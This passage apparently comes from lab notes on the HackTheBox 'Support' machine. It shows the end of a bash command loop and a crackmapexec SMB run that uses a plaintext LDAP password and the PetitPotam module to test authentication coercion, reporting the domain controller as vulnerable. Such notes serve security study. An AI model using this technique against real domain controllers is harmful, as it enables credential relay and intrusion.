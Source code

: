 ```bash
    echo '----------------------------------------'
    echo "[*] $CMD"
    echo '----------------------------------------'
    $CMD
  done
done
```

![](/assets/obsidian/2acd610276740d4e9e273df3dba70b65.png)

![](/assets/obsidian/d0aaaed8dfb9dd5010357a96e5631e23.png)


## Coerce Authentication


### MS-EFSRPC

```bash
[*] cme smb support.htb -u ldap -p nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz -M petitpotam
SMB         10.129.227.255  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.255  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
PETITPOT... 10.129.227.255  445    DC               VULNERABLE
PETITPOT... 10.129.227.255  445    DC               Next step: https://github.com/topotam/PetitPotam
```

